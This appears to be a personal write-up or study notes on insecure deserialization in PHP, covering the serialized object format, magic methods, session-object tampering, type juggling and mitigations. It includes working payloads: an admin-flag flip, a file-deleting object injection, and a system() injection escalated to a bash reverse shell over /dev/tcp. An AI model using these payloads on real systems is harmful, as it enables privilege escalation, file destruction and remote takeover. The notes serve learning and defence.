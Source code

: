 ```yaml
---
title: "Insecure Deserlization"
tags:
    - WEB
    - PHP
date: "2024-08-9"
thumbnail: "/assets/img/thumbnail/serialization.png"
bookmark: true
---
```

# Serialization
---
 is the process of converting to complex data structures, such as objects and their fields.
Serializing data makes it much simpler to:
- Write complex data to inter-process memory, a file, or a database
- Send complex data, for example, over a network, between different components of an application, or in an API call
- Some languages serialize objects into binary formats
- all of the original object's attributes are stored in the serialized data stream, including any private fields
- Used for storing and transferring data
---
# Insecure deserialization
---
deserialization vulnerabilities can be as easy as changing an attribute in a serialized object , identify and edit interesting attribute values. You can then pass the malicious object into the website via its deserialization process
**Used to:**
1- RCE
2- privilege escalation
3- file access
4- DOS attack
5- Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context.
**How to identify?**
 data flow in request
---
# PHP serialization
---
in code:
```php
$user->name = "carlos";
$user->isLoggedIn = true;
```
after selialization:
```php
`O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`
```
`O:4:"User"` - An object with the 4-character class name `"User"`

`2` - the object has 2 attributes

`s:4:"name"` - The key of the first attribute is the 4-character string `"name"`

`s:6:"carlos"` - The value of the first attribute is the 6-character string `"carlos"`

`s:10:"isLoggedIn"` - The key of the second attribute is the 10-character string `"isLoggedIn"`

`b:1` - The value of the second attribute is the boolean value `true`

**Magic methods in PHP**

https://www.php.net/manual/en/language.oop5.magic.php
• you create exploits that pass data into dangerous methods automatically.
• Magic methods are a common feature of OOP like `__destruct()` or `__construct()` .
• Some languages have magic methods that are invoked automatically **during** the deserialization process, For example, PHP's unserialize()method looks for and invokes an object's `__wakeup()`magic method.
<img src="/assets/img/deser/1.png">

**In decoded session**
- `O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}` —>change 0 to 1
- `O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:20:"ej9jdijdf9efje9eof9j9f";}`
—> change to `O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`
in case the access_token or password doesn’t start with number so we can instead value with 0
`0 == "Example string" // true` in PHP
**Arbitrary object injection in PHP**
We need source code to create and inject a malicious serialized object to do specific function
<img src="/assets/img/deser/2.png">

notice the `CustomTemplate` class contains the `__destruct()`magic method. This will invoke the `unlink()` method on the `lock_file_path` attribute, `unlink()` method to delete file
`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`
### scenario
<img src="/assets/img/deser/3.png">

```php
O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('id');";}
->
O:18:"PHPObjectInjection":1:{s:6:"inject";s:71:"system('/bin/bash -c \'bash -i >& /dev/tcp/ip/port 0>&1\'');";}
```
---
# mitigation
---
1- user input should never be deserialized at all.
2- Use a cryptographic library to generate a signature for the object and validate it prior to deserializing the returned object.
3- Don’t use unserialize() function with user input, use JSON functions instead.
---
